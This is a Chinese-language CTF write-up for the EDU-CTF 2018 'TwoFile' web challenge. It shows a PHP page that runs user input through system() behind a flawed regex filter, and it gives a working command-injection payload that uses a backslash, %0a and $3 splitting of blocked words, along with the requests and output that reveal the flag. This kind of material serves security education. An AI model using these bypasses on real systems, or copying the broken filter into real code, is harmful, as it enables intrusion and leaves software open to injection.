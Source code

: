 ```yaml
---
uuid: efa4e0df
title: EDU-CTF 2018 - TwoFile
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - EDU-CTF 2018
date: 2019-02-01 00:00:00
updated: 2019-02-01 00:00:00
---
```


這題目寫起來很有趣，反斜線看到時覺得好像有問題，卻過一小時後才去確認有沒有問題，前面都在找其他的洞，非常失策

<!--more-->

# [正文]
題目有給 source code

{% codeblock source code lang:js line_number:true %}
<?php
highlight_file(__FILE__);

$file1 = $_GET["f1"];
$file2 = $_GET["f2"];

// WAF
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|cat|sh|flag|find|grep|echo|w/is", $file1))
  $file1 = "";

if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|cat|sh|flag|find|grep|echo|w/is", $file2))
  $file2 = "";

// Prevent injection
$file1 = '"' . $file1 . '"';
$file2 = '"' . $file2 . '"';

$cmd = "file $file1 $file2";
system($cmd);
{% endcodeblock %}

## Analysis
1. 觀察 source code，發現在最後會用 system 去執行 `file $file1 $file2`，且 `$file1`，`$file2`的內容會被雙引號包住來防止 injection，如果可以繞過 WAF 和雙引號，就可以控制 system 的內容！

2. 觀察 WAF，可以發現在 preg_match 的 regular expression 中有反斜線的漏洞
  {% codeblock lang:php first_line:7 %}
  // WAF
  if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|cat|sh|flag|find|grep|echo|w/is", $file1))
    $file1 = "";

  if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|cat|sh|flag|find|grep|echo|w/is", $file2))
    $file2 = "";
  {% endcodeblock %}
  可以看到反斜線的 escape 為 `\\`，但是在 php 中要 escape 反斜線要四個 `\\\\`，這個錯誤會引發後面的 `\n` 也會出錯，`\\|\n` 在 string  escape 變成 `\|\n`，導致在 preg_match 中要 `|\n` 才會被 match 到。這樣就可以使用 {% label primary@反斜線 %} 和 {% label primary@換行符號 %}！
  {% note info %}
  ### Escape backslash in PHP
  根據 [PHP Manual](http://php.net/manual/en/regexp.reference.escape.php) 的說明，PHP 在建構 string 時會先 escape 反斜線一次，所以要表示一個反斜線，會變成 `\\`，在 preg_match 中 pattern 又會在 escape，所以會變成 `\\\\` 才能成功過濾反斜線。
  {% endnote %}

## Payload

知道可以使用反斜線和換行符號，那可以嘗試使用反斜線去 escape 雙引號，換行符號 (%0a) 來讓 system 以為有兩行命令 
{% codeblock lang:php line_number:false %}
$file1 = \
$file2 = %0als\

$cmd = "file "\" "%0als\""

// string escape, $cmd =>
"file "" "
ls""
{% endcodeblock %}

{% note warning %}
### 換行符號
這裡使用 `%0a` 當換行符號，主要是因為傳資料的時候會經過 http，會被 urlencode，%0a 就是 url 中的urlencode 換行符號，另外就是 %0a 本來就不會被 preg_match 批配到換行字元。
{% endnote %}

WAF pattern 的後半段有 `ls|cat|sh|flag|find|grep|echo|w`，這些簡單地用 $3 來 bypass 就好，例如 `ls` ==> `l$3s`

{% codeblock Http request lang:plain line_number:false %}
http://final.kaibro.tw:10002/

# cmd: ls .
GET f1=\ f2=%0al$3s%20.%20\
" : cannot open `" ' (No such file or directory) .: flag index.php

# cmd: ls flag
GET f1=\ f2=%0al$3s%20fl$3ag%20\
" : cannot open `" ' (No such file or directory) flag: flag_15_here.txt

# cmd: cat flag_15_here.txt
GET f1=\ f2=%0ac$3at%20fl$3ag/fl$3ag_15_here.txt%20\
" : cannot open `" ' (No such file or directory) FLAG{e4sy_w4f_byp4s5_0h_y4_XD__}
{% endcodeblock %}

FLAG: `FLAG{e4sy_w4f_byp4s5_0h_y4_XD__}`
